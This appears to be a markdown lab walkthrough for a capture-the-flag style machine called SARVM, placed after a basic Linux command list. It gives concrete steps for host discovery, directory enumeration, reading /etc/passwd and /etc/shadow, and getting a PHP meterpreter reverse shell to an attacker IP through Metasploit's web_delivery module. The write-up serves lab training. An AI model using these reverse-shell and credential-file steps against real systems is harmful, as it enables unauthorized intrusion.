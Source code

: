 - `rm <file>`: Remove a file or empty directory.
- `cp <file> <destination>`: Copy a file to a destination.
- `mv <file> <destination>`: Move a file to a destination.
- `cd <directory>`: Change directory.
- `pwd`: Print working directory.
- `systemctl restart NetworkManager`: Restart network manager. (Useful when you change network settings)
- `whoami`: Print current user.
- `cat <file>`: Print contents of a file.
- `head <file>`: Print first 10 lines of a file.
- `tail <file>`: Print last 10 lines of a file.

# System Hacking - SARVM
 s
## Step 1: Find Target IP Address

- Use `netdiscover` to discover the target IP address.
  - Example IP: `192.168.19.131`

## Step 2: Directory Enumeration

- Use `gobuster` for directory enumeration.
  - Command: `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.19.131/ -x "txt"`

## Step 3: Explore System Files

- Explore important system files:
  - `/etc/passwd`: File containing the username and password of the system.
  - `/etc/shadow`: File containing the password information of the system.
  - Note: In Linux, usernames in `/etc/passwd` with values over 1000 are normal users.

## Step 5: Exploit and Gain Access

- Gain reverse shell access using metasploit.
- msfconsole
  1. Use `use exploit/multi/script/web_delivery`.
  2. Set the payload to PHP reverse shell: `set payload php/meterpreter/reverse_tcp`.
  3. Set the target to PHP: `set target 1`.
  4. Set the listen host to the attacker's IP: `set lhost <IP_OF_ATTACKER>`.
  5. Set the listen port (e.g., 8888 for HTTP): `set lport 8888`.
  6. Execute the exploit: `exploit`.
  7. Copy the generated code and paste it on the target site.
  8. List sessions: `sessions`.
  9. Start the session: `sessions -i 1`.
  10. Start the shell: `shell`.
  11. Check the current user: `whoami`.
  12. Spawn a bash shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`.
      -got reverse shell
- Explore the files 13. Change directory to Desktop: `cd /home/<username>/Desktop`. 14. Print the contents of user.txt: `cat user.txt`.
